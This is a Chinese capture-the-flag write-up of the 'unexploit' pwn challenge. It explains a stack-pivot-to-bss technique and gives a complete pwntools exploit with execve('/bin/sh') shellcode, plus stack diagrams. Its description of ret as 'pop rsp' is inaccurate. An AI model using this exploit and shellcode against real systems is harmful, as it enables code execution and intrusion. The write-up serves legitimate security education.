 ```yaml
---
layout: post
title: 安恒杯-unexploit
categories: pwn
tags: [pwn]
description: 11
date: 2019-08-05
---
```


## Checksec unexploit

![img](/assets/images/2019-08-05-unexploit/unexploit2.png)

没开保护，NX没开，第一时间想到的就是写shellcode进去。

## ida分析

![img](/assets/images/2019-08-05-unexploit/unexploit1.png)

有一个栈溢出漏洞，但是只有**0x20**的空间。因此，可以用**栈迁移**。

## 一些汇编指令
```
leave:
    mov rsp,rbp   #将rsp指向rbp
    pop rbp   #将栈中保存的父栈帧的 %rbp 的值赋值给 %rbp，并且 %rsp 上移一个位置指向父栈帧的结尾处。
retn:
    pop rsp   #将当前的ESP中指向的地址出栈，JMP到这个地址。
```
**所以我们可通过覆写rbp来使栈迁移到bss段去，并利用read函数去写入shellcode，再去执行shellcode。**

## 先给出Exp
```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

p = remote('101.71.29.5',10015)
#p = process('./unexploit')

elf = ELF('unexploit')
read_addr = 0x40068A
bss_addr = elf.bss()

shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

payload1 = 'a'*8+p64(bss_addr-8)+p64(read_addr)+p64(0xdeadbeef)
payload2 = 'a'*8+p64(bss_addr+8)+p64(read_addr)+p64(0xdeadbeef)   #加上0xdeadbeef是为了填满0x20
payload3 = p64(bss_addr+8)+shellcode

p.send(payload1)
p.send(payload2)
p.send(payload3)
p.interactive()
```
### payload1
    mov rsp,rbp:
                        +-------------+
                        |  aaaaaaaa   |
                        +-------------+  
            rsp、rbp +->+  bss-0x8    |
                        +-------------+
                        |  read_addr  |
                        +-------------+
                        |  0xdeadbeef |
                        +-------------+

    pop rbp:
            +-------------+          +-------------+
            |  aaaaaaaa   |          |             |
            +-------------+          +-------------+
            |  bss-0x8    |    rbp+->+  bss-0x8    |
            +-------------+          +-------------+
      rsp+->+  read_addr  |          |  bss_start  |
            +-------------+          +-------------+
            |  0xdeadbeef |          |             |
            +-------------+          +-------------+

    pop rsp: 返回到read函数。

### payload2   
    mov rsp,rbp
    pop rbp:
                    +-------------+
                    |  aaaaaaaa   |
                    +-------------+
                    |  bss+0x8    |
                    +-------------+
              rsp+->+  read_addr  |<-+bss-start
                    +-------------+
              rbp+->+  0xdeadbeef |
                    +-------------+

    pop rsp:返回到read函数。

### payload3
    mov rsp,pbp
    pop rbp:
            +-------------+
            |  aaaaaaaa   |
            +-------------+
            |  bss+0x8    |
            +-------------+
            |  bss+0x8    |<-+bss-start
            +-------------+
      rsp+->+  shellcode  |
            +-------------+

    pop rsp:执行shellcode



